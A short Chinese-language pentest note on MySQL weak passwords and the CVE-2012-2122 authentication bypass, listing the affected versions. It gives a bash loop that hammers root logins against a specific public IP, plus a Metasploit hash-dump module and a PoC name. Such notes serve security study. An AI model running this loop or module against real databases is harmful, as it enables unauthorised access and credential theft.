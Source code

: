 # mysql
## mysql弱口令
...这个没啥好说的

## mysql身份绕过CVE-2012-2122
当连接MariaDB/MySQL时，输入的密码会与期望的正确密码比较，由于不正确的处理，会导致即便是memcmp()返回一个非零值，也会使MySQL认为两个密码是相同的。 也就是说只要知道用户名，不断尝试就能够直接登入SQL数据库。按照公告说法大约256次就能够蒙对一次
### 影响范围
MariaDB versions from 5.1.62, 5.2.12, 5.3.6, 5.5.23 
MySQL versions from 5.1.63, 5.5.24, 5.6.6 
### 验证方法
'''bash
for i in `seq 1 1000`; do mysql -u root --password=bad -h 101.200.238.97 2>/dev/null; done
'''

msfconsole:
auxiliary/scanner/mysql/mysql_authbypass_hashdump

poc:
poc_mysql_auth_bypass.py